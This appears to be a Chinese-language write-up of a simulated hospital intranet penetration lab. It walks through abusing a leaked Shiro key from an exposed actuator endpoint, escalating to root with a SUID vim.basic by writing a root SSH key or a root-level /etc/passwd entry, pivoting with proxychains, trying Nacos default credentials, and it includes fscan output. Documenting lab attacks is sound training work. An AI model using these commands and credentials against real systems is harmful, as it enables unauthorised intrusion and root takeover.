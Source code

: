![](attachments/Pasted%20image%2020240216130244.png)
#内网渗透 #Nacos #Shiro #Fastjson #Decrypt
在这个场景中，你将扮演一名渗透测试工程师，被派遣去测试某家医院的网络安全性。你的目标是成功获取所有服务器的权限，以评估公司的网络安全状况。该靶场共有 4 个flag，分布于不同的靶机。

nmap

![](attachments/Pasted%20image%2020240802145752.png)

访问8080端口服务

![](attachments/Pasted%20image%2020240802145947.png)

弱口令 admin:admin123

明显的shiro特征，但是爆破密钥无果

![](attachments/Pasted%20image%2020240802150516.png)

又用fscan扫了一遍

![](attachments/Pasted%20image%2020240802150757.png)

`actuator`泄露

拿下shirokey

![](attachments/Pasted%20image%2020240802151910.png)

```
algMode = CBC, key = GAYysgMQhG7/CzIJlVpR2g==, algName = AES
```

工具直接执行命令

![](attachments/Pasted%20image%2020240802152045.png)

直接弹shell

`find / -user root -perm -4000 -print 2>/dev/null`

![](attachments/Pasted%20image%2020240802154503.png)

vim.basic 提权

直接利用vim.basic 向root中写自己的公钥然后ssh登录，也可以改写passwd文件增加已知密码的用户

`vim.basic /root/.ssh/authorized_keys` 
或者写/etc/passwd

```
$1$asd$sTMDZlRI6L.jJEw2I.3x8.:0:0:root:/toor:/bin/bash
密码 123
用户 toor
```

![](attachments/Pasted%20image%2020240803130627.png)

利用proxychain扫描
proxychains4 -q nxc smb 172.30.12.5/24


`scp "D:\web\scan\fscan\fscan" root@39.98.125.109:/root`

```

上传venom，配置socks代理并通过proxyfilter代理到本地
```

访问http://172.30.12.6:8848/nacos ，尝试默认密码 nacos:nacos


fscan扫描内网

```SH
root@web01:~# chmod 777 fscan
root@web01:~# ./fscan -h 172.30.12.5/24 -hn 172.30.12.5

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.30.12.236   is alive
(icmp) Target 172.30.12.6     is alive
[*] Icmp alive hosts len is: 2
172.30.12.236:8009 open
172.30.12.6:8848 open
172.30.12.236:8080 open
172.30.12.6:139 open
172.30.12.6:135 open
172.30.12.6:445 open
172.30.12.236:22 open
[*] alive ports len is: 7
start vulscan
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02
[*] NetInfo
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass



